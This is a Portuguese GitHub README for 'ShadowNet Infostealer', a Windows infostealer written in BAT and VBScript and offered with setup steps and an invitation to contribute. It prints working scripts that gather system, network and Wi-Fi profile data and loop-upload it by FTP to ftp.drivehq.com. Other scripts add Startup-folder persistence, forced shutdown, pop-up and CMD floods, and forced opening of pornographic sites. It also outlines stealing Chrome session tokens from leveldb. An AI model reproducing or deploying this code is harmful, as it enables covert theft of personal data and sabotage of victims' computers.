

<h2 align="center">🚀 ShadowNet Infostealer</h2>

<p align="center">
  
  <a href="https://github.com/panda12332145/ShadowNetInfostealer/commits/master">
    
  </a>
  <a href="https://github.com/panda12332145/ShadowNetInfostealer">
    
  </a>
</p>

<p align="center">
  
</p>

---

# 🔖 Resumo

<p align="center">
ShadowNet Infostealer é um projeto experimental de automação e coleta de informações em ambientes Windows, desenvolvido inteiramente em scripts BAT e VBScript. Neste projeto eu implementei módulos voltados para coleta de informações do sistema operacional, enumeração de rede, captura de dados locais, automação de screenshots, execução de payloads e exfiltração via FTP.  
<br><br>
A arquitetura foi construída de forma modular, permitindo separar claramente as partes responsáveis por coleta, execução, persistência e exfiltração. O objetivo principal foi estudar automação ofensiva em Windows utilizando apenas ferramentas nativas do sistema operacional, sem dependências pesadas.
</p>

---

# ✨ Funcionalidades

* ✅ **Coleta de Informações do Sistema**
  Capturei detalhes do sistema operacional, hardware, redes, IPs, perfis Wi-Fi, conexões ativas e conteúdo dos diretórios Desktop e Downloads.

* ✅ **Exfiltração Automática via FTP**
  Implementei um sistema simples de envio contínuo de arquivos utilizando o cliente FTP nativo do Windows.

* ✅ **Persistência e Automação**
  Estruturei múltiplos scripts VBScript e BAT trabalhando em conjunto para automatizar execução, reinicialização de módulos e inicialização automática.

* ✅ **Módulos de Perturbação / Payloads**
  Adicionei módulos de teste capazes de abrir múltiplas abas do navegador, gerar pop-ups críticos e executar comandos de desligamento.

* ✅ **Captura de Screenshot**
  Utilizei `nircmd.exe` para automatizar capturas de tela e armazenamento local das imagens.

* ✅ **Execução de Comandos Locais**
  Deixei preparado um módulo separado para execução de comandos destrutivos e automação de operações administrativas.

* ✅ **Arquitetura Modular**
  Separei cada funcionalidade em módulos independentes para facilitar manutenção, expansão e reaproveitamento de componentes.

---

# 📽 Demonstração

<p align="center">
  <kbd>
    
    
  </kbd>
</p>

> **GIF animado:**
> 

---

# ⚙️ Explicação das Partes Importantes

## Função `collect_system_info.bat`

```bat
@echo off
cls
echo ----------------------------------------- >> config\system_information.txt
systeminfo >> config\system_information.txt
ipconfig /all >> config\system_information.txt
netsh wlan show profiles >> config\system_information.txt
netstat >> config\system_information.txt
cd C:\Users\%username%\Desktop & dir >> config\system_information.txt
cd C:\Users\%username%\Download & dir >> config\system_information.txt
```

> Neste módulo eu centralizei toda a coleta inicial de informações do sistema.
>
> Aqui eu capturei:
>
> * Informações do sistema operacional e hardware (`systeminfo`)
> * Configurações de rede e IPs (`ipconfig /all`)
> * Histórico de redes Wi-Fi (`netsh wlan show profiles`)
> * Conexões de rede ativas (`netstat`)
> * Conteúdo dos diretórios Desktop e Downloads
>
> **Observação crítica:**
> O script possui uma parte incompleta envolvendo o diretório:
>
> ```plaintext
> C:\Users\frant\AppData\Local\Google\Chrome\User Data\Profile 1\Local Storage\leveldb
> ```
>
> Nesta versão eu ainda não implementei a extração desse diretório. Minha ideia era utilizar `robocopy` ou `xcopy` para copiar os dados armazenados no `leveldb`, incluindo sessões persistidas, tokens e informações do navegador.

---

## Função `bootstrap_secondary.bat`

```bat
@echo off
start key.vbs
start FTP-CONFIG.bat
start exfiltration\exfiltrate_via_ftp.bat
start execution\operation_menu.bat
start collection\collect_system_info.bat
```

> Este script funciona como o orquestrador principal do projeto.
>
> Nele eu executo múltiplos módulos simultaneamente:
>
> * `key.vbs`
> * `FTP-CONFIG.bat`
> * `exfiltrate_via_ftp.bat`
> * `operation_menu.bat`
> * `collect_system_info.bat`
>
> Estruturei dessa forma para que, mesmo se algum módulo falhar, os outros continuem funcionando normalmente.
>
> O objetivo foi criar um sistema modular e concorrente utilizando apenas recursos nativos do Windows.

---

## Algoritmo Principal `operation_menu.bat`

```bat
:lop
cls
if existbootstrap_sys_vbs (start bootstrap_sys_vbs.vbs) else (goto 2)
:2
cls
if exist printe (start print_screenshot.vbs) else (goto 3)
:3
cls
if exist mesg (start payloads\send_message_notification.vbs) else (goto 4)
:4
cls
if exist porn (start www.xvideos.com) else (goto 5)
:5
cls
if exist shut (shutdown /f /s /t 2 /f) else (goto 6)
:6
cls
if exist loc (start www.xvideos.com & start www.xvideos.com & start cmd & start cmd) else (goto lop)
goto lop
```

> Neste módulo eu implementei um mecanismo simples de controle baseado em arquivos de sinalização.
>
> O script verifica constantemente a existência de determinados arquivos:
>
> * `porn`
> * `mesg`
> * `printe`
> * `shut`
> * `loc`
>
> Quando algum desses arquivos existe, o módulo correspondente é executado.
>
> Exemplos:
>
> * `porn` → abre múltiplas abas no navegador
> * `mesg` → exibe pop-ups críticos
> * `shut` → executa desligamento forçado
> * `loc` → abre múltiplas abas e várias instâncias do CMD
>
> Eu utilizei esse modelo porque é extremamente simples de implementar em BAT puro.
>
> **Observação:**
> O arquivo `bootstrap_sys_vbs.vbs` chama `sys.bat`, mas nesta versão eu ainda não implementei esse segundo estágio. Minha ideia era adicionar persistência avançada, automação adicional ou download de payloads complementares.

---

## Função `exfiltrate_via_ftp.bat`

```bat
@echo off
ftp -s:config22.txt ftp.drivehq.com
ping localhost /n 5 >> nul
goto li
```

> Neste módulo eu implementei um loop contínuo de envio de arquivos utilizando o cliente FTP nativo do Windows.
>
> O arquivo `config22.txt` contém:
>
> ```plaintext
> username
> password
> cd /uploads
> binary
> put config\system_information.txt
> quit
> ```
>
> O comando:
>
> ```bat
> ping localhost /n 5
> ```
>
> foi utilizado apenas como delay simples entre as tentativas de envio.
>
> Nesta versão eu utilizei FTP puro pela simplicidade da implementação e compatibilidade universal com Windows.

---

## Função `send_message_notification.vbs`

```vbs
msgbox "Voce foi hackeado hahahahahahahaha" ,vbcritical, "Hacked"
```

> Neste payload eu implementei uma janela modal utilizando VBScript.
>
> O objetivo era gerar perturbação visual e bloquear temporariamente a interação do usuário até o fechamento da mensagem.
>
> Como não existe controle de instâncias, múltiplas chamadas podem gerar dezenas de pop-ups simultaneamente.

---

## Função `print_screenshot.bat`

```bat
nircmd.exe savescreenshot print1.jpg
```

> Neste módulo eu utilizei o `nircmd.exe` para automatizar captura de tela.
>
> Para isso funcionar corretamente eu preciso já ter colocado o `nircmd.exe` no PATH do sistema ou dentro do diretório do projeto.
>
> O objetivo era utilizar screenshots para monitoramento visual e validação da atividade do sistema.

---

# 🔄 Fluxo de Trabalho / Arquitetura


```mermaid
graph TD
    A[Execução Inicial] --> B[bootstrap_secondary.bat]
    B --> C[collect_system_info.bat]
    C --> D[Gerar system_information.txt]
    D --> E[exfiltrate_via_ftp.bat]
    E --> F[FTP]
    B --> G[operation_menu.bat]
    G --> H{Arquivo de comando?}
    H -->|printe| I[Captura Screenshot]
    H -->|mesg| J[Popup]
    H -->|porn| K[Abrir Navegador]
    H -->|shut| L[Shutdown]
    H -->|loc| M[CMD Flood]
    H -->|Nenhum| N[Loop]
```

---

# 📂 Estrutura do Projeto

```plaintext
/ShadowNetInfostealer
├── collection/
│   └── collect_system_info.bat
├── config/
│   ├── system_information.txt
│   └── config22.txt
├── core/
│   ├── bootstrap_main.vbs
│   ├── bootstrap_secondary.bat
│   └── bootstrap_sys_vbs.vbs
├── execution/
│   └── operation_menu.bat
├── exfiltration/
│   └── exfiltrate_via_ftp.bat
└── payloads/
    ├── execute_system_command.bat
    ├── print_screenshot.bat
    └── send_message_notification.vbs
```

---

# 🛠️ Como Executar

## 📋 Pré-requisitos

* Windows 7/8/10/11
* Acesso à internet
* `nircmd.exe`
* Arquivo `config22.txt`

---

## 🚀 Execução

```bat
copy core\bootstrap_main.vbs "%APPDATA%\Microsoft\Windows\Start Menu\Programs\Startup\"

copy core\bootstrap_sys_vbs.vbs "%APPDATA%\Microsoft\Windows\Start Menu\Programs\Startup\"

cd /d C:\path\to\ShadowNetInfostealer

start core\bootstrap_secondary.bat
```

> Nesta estrutura eu utilizei a pasta Startup do Windows para automatizar execução no logon do usuário.

---

# 🧪 Testes

```bat
:: Teste de coleta
cd collection
collect_system_info.bat

:: Teste de exfiltração
exfiltration\exfiltrate_via_ftp.bat

:: Teste de payloads
echo. > execution\porn
echo. > execution\mesg
echo. > execution\shut
```

---

# 📊 Benchmark

| Métrica            | Valor         |
| ------------------ | ------------- |
| Tempo de coleta    | 8–12 segundos |
| Tamanho do arquivo | 12–25 KB      |
| Uso máximo de CPU  | 15%           |
| Uso de memória     | 15–25 MB      |
| Tempo médio FTP    | 3–8 segundos  |

---

# 🔒 Considerações Técnicas

* Nesta versão eu não implementei criptografia.
* Toda comunicação FTP ocorre em texto claro.
* Os scripts permanecem totalmente legíveis.
* O sistema utiliza apenas ferramentas nativas do Windows.
* O mecanismo de sinalização por arquivos é extremamente simples.
* O projeto prioriza modularidade e automação básica.
* O `nircmd.exe` foi utilizado como ferramenta externa auxiliar.

---

# 🚧 Roadmap

* [x] Coleta de informações do sistema
* [x] Exfiltração via FTP
* [x] Captura de screenshot
* [x] Módulos de payload
* [ ] Implementar segundo estágio (`sys.bat`)
* [ ] Adicionar criptografia AES
* [ ] Implementar comunicação HTTPS
* [ ] Implementar DNS tunneling
* [ ] Melhorar persistência
* [ ] Adicionar suporte multiusuário
* [ ] Integrar comunicação HTTP POST

---

# 🤝 Contribuição

Sinta-se à vontade para abrir issues e enviar pull requests.

---

# 📄 Licença

Distribuído sob licença MIT.

---

# 👾 Autor

<p align="center">
  
</p>

<p align="center">
  Feito por <strong>Panda12332145</strong>
</p>

---

# 🧑‍💻 Sobre Mim

Sou apaixonado por Física Teórica, Cibersegurança e Desenvolvimento de Sistemas. Tenho grande interesse em programação de baixo nível, engenharia reversa, automação, sistemas Windows, criptografia e segurança ofensiva.

Também gosto bastante de música, filosofia e computação avançada.

---

# 🌐 Redes

* Site: [https://panda-h0me.netlify.app/](https://panda-h0me.netlify.app/)
* YouTube: [https://www.youtube.com/@X86BinaryGhost](https://www.youtube.com/@X86BinaryGhost)
* Instagram: [https://www.instagram.com/01pandal10/](https://www.instagram.com/01pandal10/)
* GitHub: [https://github.com/panda12332145](https://github.com/panda12332145)

---

# 🚀 Áreas de Interesse

* Cibersegurança
* Engenharia Reversa
* Sistemas de Baixo Nível
* Matemática
* Física Teórica
* Desenvolvimento de Sistemas

---

*"Conhecimento é poder, e domínio técnico vem da compreensão profunda dos sistemas."*
